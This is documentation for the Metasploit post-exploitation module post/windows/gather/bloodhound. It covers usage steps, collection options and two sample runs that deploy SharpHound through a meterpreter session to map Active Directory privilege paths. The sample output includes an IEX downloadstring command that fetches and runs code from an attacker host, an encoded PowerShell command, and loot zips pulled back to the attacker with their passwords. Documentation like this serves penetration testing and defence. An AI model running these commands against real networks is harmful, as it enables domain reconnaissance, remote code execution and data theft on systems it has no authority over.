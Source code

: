 ## Vulnerable Application

This module will execute the BloodHound C# Ingestor (aka SharpHound) to gather sessions, local admin, domain trusts and more.
With this information BloodHound will easily identify highly complex privilage elevation attack paths that would otherwise be
impossible to quickly identify within an Active Directory environment.

This module can take several/many minutes to run due to the volume of data being collected.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session on a Windows domain
  3. Do: `use post/windows/gather/bloodhound`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see that the module is running a powershell in the target machine
  7. You should be able to see, after few minutes, that the module created a loot with the BloodHound results in zip format

## Options

### Method

Which method to use to get shaphound running.  Default is `download`.

  1. `download` requires the compromised host to have connectivity back to metasploit to download and execute the
      payload.  Sharphound is not written to disk.
  2. `disk` requires admin privileges to bypass the execution policy (if it isn't open).  Writes the `sharphound.exe`
     file to disk.  No connectivity is required but a disk write does happen which is likely to get caught by AV.

### CollectionMethode

The collection method to use. Accepted values are `Default`, `Group`,
`LocalAdmin`, `RDP`, `DCOM`, `GPOLocalGroup`, `Session`, `ObjectProps`, `ComputerOnly`, `LoggedOn`, `Trusts`, `ACL`, `Container`,
`DcOnly`, `All`.  The default method is `Default`.

### Domain

Specifies the domain to enumerate. If not specified, will enumerate the current domain your user context specifies.

### Stealth

Use stealth collection options, will sacrifice data quality in favor of much reduced network impact. The default value is `false`.

### ExcludeDomainControllers

Exclude domain controllers from session queries. Useful for ATA environments which detect this behavior. The default value is `false`.

### DomainController

Specify which Domain Controller to request data from. Defaults to closest DC using Site Names.

### LdapPort

Override the port used to connect to LDAP.

### SecureLdap

Uses LDAPs instead of unencrypted LDAP on port 636. The default value is `false`.

### DisableKerbSigning

Disables Kerberos Signing on requests. The default value is `false`.


### OutputFolder

Folder to write the JSON output to.  Default is to enumerate the Windows Temp folder.

### EncryptZip

If the zip should be encrypted by SharpHound using a random password.  Password is stored to `notes`, default is `true`.

### NoSaveCache

If the cache file (.bin) should NOT be written to disk.  Default is `true`.

## Scenarios

### Windows 2012 Domain Controller, Download method

```
msf6 post(windows/gather/bloodhound) > run

[*] Using URL: http://1.1.1.1:8080/127mPhBr3dZ
[*] Loading BloodHound with: IEX (new-object net.webclient).downloadstring('http://1.1.1.1:8080/127mPhBr3dZ')
[*] Invoking BloodHound with: Invoke-BloodHound -OutputDirectory "C:\Users\ADMINI~1\AppData\Local\Temp" -ZipFileName isid -MemCache -ZipPassword ilvtbfgkcmwszdxjn 
[*] 2022-11-13T13:45:21.0298446-05:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
[*] 2022-11-13T13:45:21.4198615-05:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
[*] 2022-11-13T13:45:21.4666492-05:00|INFORMATION|Initializing SharpHound at 1:45 PM on 11/13/2022
[*] 2022-11-13T13:45:22.2154647-05:00|INFORMATION|Loaded cache with stats: 59 ID to type mappings.
[*]  59 name to SID mappings.
[*]  0 machine sid mappings.
[*]  2 sid to domain mappings.
[*]  0 global catalog mappings.
[*] 2022-11-13T13:45:22.2310827-05:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
[*] 2022-11-13T13:45:22.6054639-05:00|INFORMATION|Beginning LDAP search for hoodiecola.com
[*] 2022-11-13T13:45:22.7458626-05:00|INFORMATION|Producer has finished, closing LDAP channel
[*] 2022-11-13T13:45:22.7614632-05:00|INFORMATION|LDAP channel closed, waiting for consumers
[*] 2022-11-13T13:45:53.5431310-05:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 87 MB RAM
[*] 2022-11-13T13:46:06.1354911-05:00|INFORMATION|Consumers finished, closing output channel
[*] 2022-11-13T13:46:06.2134955-05:00|INFORMATION|Output channel closed, waiting for output task to complete
[*] Closing writers
[*] 2022-11-13T13:46:06.5255088-05:00|INFORMATION|Status: 100 objects finished (+100 2.325581)/s -- Using 89 MB RAM
[*] 2022-11-13T13:46:06.5255088-05:00|INFORMATION|Enumeration finished in 00:00:43.9260652
[*] 2022-11-13T13:46:06.7283096-05:00|INFORMATION|Saving cache with stats: 59 ID to type mappings.
[*]  59 name to SID mappings.
[*]  0 machine sid mappings.
[*]  2 sid to domain mappings.
[*]  0 global catalog mappings.
[*] 2022-11-13T13:46:06.7439000-05:00|INFORMATION|SharpHound Enumeration Completed at 1:46 PM on 11/13/2022! Happy Graphing!
[+] Downloaded C:\Users\ADMINI~1\AppData\Local\Temp\20221113134605_isid.zip: /root/.msf4/loot/20221113141655_default_2.2.2.2_windows.ad.blood_027677.zip
[+] Zip password: ilvtbfgkcmwszdxjn
[*] Post module execution completed
```

### Windows 10 non-AD host, Windows Server 2012 AD, Disk Method

```
meterpreter > sysinfo
Computer        : WIN10PROLICENSE
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : hoodiecola
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 post(windows/gather/bloodhound) > set method disk
method => disk
msf5 post(windows/gather/bloodhound) > exploit

[*] Uploading sharphound.exe as C:\Users\user\Desktop\qehojlwml.exe
[*] Loading BloodHound with: . C:\Users\user\Desktop\qehojlwml.exe --outputdirectory "C:\Users\user\AppData\Local\Temp" --zipfilename eiqxerh --encryptzip --nosavecache 
[+] EXECUTING:
powershell.exe -EncodedCommand LgAgAEMAOgBcAFUAcwBlAHIAcwBcAHQAYQByAGEAXABEAGUAcwBrAHQAbwBwAFwAcQBlAGgAbwBqAGwAdwBtAGwALgBlAHgAZQAgAC0ALQBvAHUAdABwAHUAdABkAGkAcgBlAGMAdABvAHIAeQAgACIAQwA6AFwAVQBzAGUAcgBzAFwAdABhAHIAYQBcAEEAcABwAEQAYQB0AGEAXABMAG8AYwBhAGwAXABUAGUAbQBwACIAIAAtAC0AegBpAHAAZgBpAGwAZQBuAGEAbQBlACAAZQBpAHEAeABlAHIAaAAgAC0ALQBlAG4AYwByAHkAcAB0AHoAaQBwACAALQAtAG4AbwBzAGEAdgBlAGMAYQBjAGgAZQAgADsAIAA= -InputFormat None
[*] ----------------------------------------------
[*] Initializing SharpHound at 4:19 PM on 6/3/2020
[*] ----------------------------------------------
[*] 
[*] Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
[*] 
[*] [+] Creating Schema map for domain HOODIECOLA.COM using path CN=Schema,CN=Configuration,DC=HOODIECOLA,DC=COM
[*] [+] Cache File not Found: 0 Objects in cache
[*] 
[*] [+] Pre-populating Domain Controller SIDS
[*] Status: 0 objects finished (+0) -- Using 19 MB RAM
[*] Status: 63 objects finished (+63 21)/s -- Using 26 MB RAM
[*] Enumeration finished in 00:00:03.3219377
[*] Compressing data to C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip
[*] Password for Zip file is QEqUpTtU0v. Unzip files manually to upload to interface
[*] 
[*] SharpHound Enumeration Completed at 4:19 PM on 6/3/2020! Happy Graphing!
[*] 
[+] Downloaded C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip: /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip
[+] Zip password: QEqUpTtU0v
[*] Deleting C:\Users\user\Desktop\qehojlwml.exe
[*] Post module execution completed

msf5 post(windows/gather/bloodhound) > notes

Notes
=====

 Time                     Host          Service  Port  Protocol  Type                     Data
 ----                     ----          -------  ----  --------  ----                     ----
 2020-06-03 23:27:05 UTC  2.2.2.2                           Sharphound Zip Password  "Bloodhound/Sharphound loot /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip password is QEqUpTtU0v"

```
